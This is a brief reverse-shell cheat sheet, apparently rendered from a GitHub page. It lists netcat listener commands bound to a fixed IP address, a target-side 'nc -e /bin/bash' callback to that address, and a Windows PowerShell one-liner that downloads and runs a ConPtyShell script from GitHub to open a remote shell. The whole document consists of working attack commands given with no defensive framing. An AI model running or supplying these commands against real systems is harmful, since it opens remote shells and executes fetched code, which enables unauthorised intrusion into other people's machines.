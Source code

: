 #### **Linux Reverse Shell Listener**
##### l = listen, n = ip address only (no dns), v = verbose, p = port

```powershell
nc -lnvp 87 -s 69.164.204.158
```

#### Linux Target Reverse Shell Connection
##### (-e is an legacy command, if it doesn't work remove -e)

```powershell
nc -e /bin/bash 69.164.204.158 87
```

#### Linux Reverse Shell Listener for Windows
```powershell
stty raw -echo; (stty size; cat) | nc -lnvp 87 -s 69.164.204.158
```

##### Windows Reverse Shell Connection
```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```
